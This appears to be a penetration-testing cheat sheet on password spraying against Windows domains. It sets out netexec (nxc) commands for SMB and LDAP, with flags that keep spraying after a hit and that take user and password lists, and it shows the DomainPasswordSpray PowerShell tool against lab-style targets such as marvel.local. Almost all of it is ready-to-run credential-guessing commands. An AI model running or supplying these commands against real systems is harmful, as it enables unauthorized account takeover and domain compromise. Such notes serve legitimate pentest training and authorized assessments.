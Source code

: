 # Password Spraying
NOTE: Always check or confirm lockout threshold before spraying
```
nxc smb 10.0.2.15 -d marvel.local -u fcastle -p Password1 --pass-pol
```
## netexec
- [nxc Password Spraying documentation](https://www.netexec.wiki/smb-protocol/password-spraying)
- NOTE: By default nxc will exit after a successful login is found. Using the --continue-on-success flag, it will continue spraying even after a valid password is found. Useful for spraying a single password against a large user list. This is incompatible with command execution.
1. Test a single password value with a list of user names
SMB Example:
```
nxc smb 10.0.2.15 -u users.txt -p Password1 --continue-on-success
```
Multiple usernames (space delimeter):
```
nxc smb 192.168.1.101 -u user1 user2 user3 -p Summer18 --continue-on-success
```
Multiple passwords (space delimeter):
```
nxc smb 192.168.1.101 -u user1 -p password1 password2 password3 --continue-on-success
```
LDAP Example:
```
nxc ldap 10.0.2.15 -u users.txt -p Password1 --continue-on-success
```
Input files:
```
nxc smb 192.168.1.101 -u /path/to/users.txt -p Summer18
```
```
nxc smb 192.168.1.101 -u Administrator -p /path/to/passwords.txt
```
```
nxc smb 192.168.1.101 -u user.txt -p password.txt
```
## DomainPasswordSpray
- [DomainPasswordSpray Project](https://github.com/dafthack/DomainPasswordSpray)
- PowerShell tool
```
. .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Spring2017
```
The following command will automatically generate a list of users from the current user's domain and attempt to authenticate using each username and a password of Winter2025.
```
Invoke-DomainPasswordSpray -UserList .\users.txt -Password Winter2025 -Verbose
```

